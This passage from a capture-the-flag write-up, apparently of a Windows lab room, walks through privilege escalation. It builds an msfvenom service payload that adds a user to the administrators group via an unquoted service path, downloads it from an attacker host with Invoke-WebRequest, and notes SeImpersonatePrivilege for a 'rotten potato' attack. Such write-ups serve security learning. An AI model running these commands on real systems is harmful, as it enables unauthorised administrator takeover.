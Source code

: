 Let's try that then, we need to create a new payload that needs to be a service with some name that we can exploit from one of those available unquoted service names.

We can create a payload with msfvenom:

`msfvenom -p windows/exec CMD="net localgroup administrators defaultapppool /add" -f exe-service -o xentools.exe`

Let's break this down a bit. We need to make sure we add the user to the administrator's group, and we need to carefully choose the file name. Let's try this one `AWSLiteAgent C:\Program Files\Amazon\XenTools\LiteAgent.exe` so we'll call or payload file `xentools.exe`

We use Powershell once again to upload the payload to the machine:

`Invoke-WebRequest -Uri "http://10.13.0.34:2112/xentools.exe" -OutFile "C:/Program Files/Amazon/"`

We are able to successfully upload our payload:

![Uploaded the payload](https://i.imgur.com/jBMeYEZ.png)


If we look at the services `net start` we get the following:

![](https://i.imgur.com/j9xh02x.png)

However, we don't have permission to start/stop services...

And guess what? the VM died on me again. :cry:

I have been sitting at this PC from 9AM to 6PM for work, then picked this room up from where I left last night. I'm super tired, can't think honestly. Not-fun fact: I suffer migraines, really bad ones. I need to take some time off the screen. I'll continue tomorrow.


![](https://i.ytimg.com/vi/KTpd-CEJahw/maxresdefault.jpg)

Let's continue with this awesome room. We need to figure out a way to exploit this machine to get ourselves root, obviously. But how can we achieve that?
Looking back at the results from winPEAS we see something interesting:

```sh
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

We seem to have a `SeImpersonatePrivilege Impersonate a client after authentication Enabled`, which we could potentially try to exploit.
Searching around I find this link on the awesome `hacktricks` book, check it [here](https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/rottenpotato). The attack is called `rotten potato` and I'm not really familiar with what it does.
